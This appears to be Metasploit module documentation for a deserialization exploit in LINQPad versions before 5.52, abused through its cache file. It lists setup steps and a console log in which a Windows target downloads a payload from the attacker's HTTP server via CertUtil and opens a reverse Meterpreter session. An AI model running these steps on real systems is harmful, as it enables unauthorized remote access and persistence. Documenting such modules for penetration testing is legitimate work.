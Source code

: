 ## Vulnerable Application

LINQPad is a scratchpad for .NET programming.
Versions prior to 5.52 contain a deserialization vulnerability in processing cache file when program is starting.
Application can be downloaded from [here](https://www.linqpad.net/).


## Verification Steps

1. Install the application
2. Start msfconsole
3. Get session
4. Run: `use windows/local/linqpad_deserialization`
5. Set payload - for example `set payload cmd/windows/generic` - and corresponding parameters
6. Set parameters `session`, `cache_path`, `linqpad_path`, `cleanup`
7. Run exploit

## Options


### cache\_path

The parameter sets path for folder, where vulnerable cache file is present.
This is crucial part of the exploit as the folder can be used to identify whether the current version is vulnerable and the payload delivery is performed through cache file.


## Scenarios

```
msf > use exploit/multi/handler
msf exploit(multi/handler) > set LHOST 192.168.3.7
msf exploit(multi/handler) > set LPORT 4545
msf exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_tcp
[*] Exploit completed, but no session was created.
msf exploit(windows/persistence/linqpad_deserialization_persistence) >
[*] Fetch handler listening on 192.168.3.7:8080
[*] HTTP server started
[*] Adding resource /LCG8z8xZZXJnz_uKNIZRPw
[*] Started reverse TCP handler on 192.168.3.7:4545
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. LINPad and vulnerable cache file present, target possibly exploitable
[*] Create deserialization payload
[*] Saving the original content
[*] Saved at: /home/ms/.msf4/loot/20251027153340_default_10.5.132.148_CUsersmsfuser_949460.txt
[*] Overwriting file
[*] Meterpreter-compatible Cleanup RC file: /home/ms/.msf4/logs/persistence/WIN10_1909_BE09_20251027.3341/WIN10_1909_BE09_20251027.3341.rc
[*] Client 10.5.132.148 requested /LCG8z8xZZXJnz_uKNIZRPw
[*] Sending payload to 10.5.132.148 (Microsoft-CryptoAPI/10.0)
[*] Client 10.5.132.148 requested /LCG8z8xZZXJnz_uKNIZRPw
[*] Sending payload to 10.5.132.148 (CertUtil URL Agent)
[*] Sending stage (203846 bytes) to 10.5.132.148
[*] Meterpreter session 2 opened (192.168.3.7:4545 -> 10.5.132.148:50045) at 2025-10-27 15:33:53 +0100
```
